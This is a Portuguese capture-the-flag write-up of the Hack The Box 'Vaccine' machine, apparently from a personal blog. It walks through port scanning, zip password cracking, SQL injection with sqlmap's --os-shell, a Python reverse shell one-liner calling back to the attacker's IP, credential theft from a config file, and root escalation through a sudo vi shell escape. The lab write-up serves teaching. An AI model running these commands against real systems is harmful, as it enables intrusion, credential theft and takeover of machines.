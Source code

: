 ```yaml
---
description: CTF do Hack The Box como fiz e anotações.
title: HackTheBox - Vaccine - Fácil
date: 2024-01-14 04:22:00 +/-0300
categories: [CTF, HackTheBox]
tags: [ctf, hackthebox, linux, sudo, web, facil, sqli, walk]     # TAG names should always be lowercase
show_image_post: true
---
```

![logo](/assets/img/vaccinelogo.png){: w="100" h="100" .left}

---
# **CTF - HTB Vaccine - Fácil**
---
---
## **Enumeração**

### nmap

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s -sC 10.129.254.54 -T4 -p 21,22,80 --min-rate 10000 -oA nmap 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-12 04:31 EST
Nmap scan report for 10.129.254.54
Host is up (0.15s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.151
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

```
{: .nolineno }
### gobuster

```shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.129.254.54/.htpasswd            (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess.old        (Status: 403) [Size: 278]
http://10.129.254.54/.htpasswd.old        (Status: 403) [Size: 278]
http://10.129.254.54/.htpasswd.txt        (Status: 403) [Size: 278]
http://10.129.254.54/.htpasswd.php        (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess.php        (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess.txt        (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess            (Status: 403) [Size: 278]
http://10.129.254.54/dashboard.php        (Status: 200) [Size: 2312]
http://10.129.254.54/index.php            (Status: 200) [Size: 2312]
http://10.129.254.54/license.txt          (Status: 200) [Size: 1100]
http://10.129.254.54/server-status        (Status: 403) [Size: 278]
Progress: 81876 / 81880 (100.00%)
===============================================================
```
{: .nolineno }

A pagina inicial é uma tela de login.  
O ftp permite login anonymous, encontrando backup.zip com senha -> "741852963", resolvida com John The Ripper.

``
$zip2john backup.zip > hash  
``  
``
$john hash
``

Dentro do foi zip encontrado:
index.php
onde contem login e senha.

```php
admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") 
```
{: .nolineno }

Hash "2cb42f8734ea607eefed3b70af13bbd3" = "qwerty789".  
Obtida em banco de dados de algum site.  
login e senha aceitos na pagina inicial;

Pagina Web vulnerável a SQLInjection.

![sqli](/assets/img/vaccine1.png)

## **Acesso**

### Reverse Shell

Com sqlmap foi possível confirmar e ler o db, nada de util, porem existe a opção ``--os-shell``
que você pode executar um comando, no caso vamos usar para executar uma reverse shell.

`sqlmap -u 'http://10.129.254.54/dashboard.php?search=a' --cookie="PHPSESSID=pt0gp6cl43a3lvq63atkn90j7b" --os-shell`

o `--cookie` é necessário para manter a sessão

comando de reverse shell executado

python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.151",4443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'

Shell Upgrade

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'  
CTRL+Z  
stty raw -echo  
fg  
export TERM=xterm  
```
{: .nolineno }

## **Obtendo credenciais**

Pegando a senha do db em: cat  /var/www/html/dashboard.php  
`user=postgres password=P@s5w0rd!"`

A shell cai e poucos minutos e com essa senha podemos logar via ssh.

### Primeira flag

`cat user.txt`  
`ec9b13ca4d6229cd5cc1e09980965bf7`  

## **Escalação de Privilégio**  

Agora podemos executar o sudo -l  e ver algum possível escalamento de privilégio.  

```shell
$sudo -l
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
  {: .nolineno }

  Consultando o  [GTO](https://gtfobins.github.io/gtfobins/vi/#sudo) ele nos da essa opção
  
`  sudo vi -c ':!/bin/sh' /dev/null`
   
```shell
postgres@vaccine:~$ sudo vi -c ':!/bin/sh' /dev/null
Sorry, user postgres is not allowed to execute '/usr/bin/vi -c :!/bin/sh /dev/null' as root on vaccine.
```
{: .nolineno }

Só podemos usar o vi em `etc/postgresql/11/main/pg_hba.conf`,
  a alternativa que o GTO nos da é:
  
`vi`  
`:set shell=/bin/sh`  
`:shell`

sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
usamos:  
`:`  
`set shell=/bin/sh`  
`[enter]`   
`:`  
`shell`  
`[enter]`  

### Ultima flag
```shell
$whoami  
root
$root@vaccine:~# cat root.txt 
dd6e058e814260bc70e9bbdef2715849
$root@vaccine:~# 
```
{: .nolineno }
![pwned](/assets/img/vaccine3.png)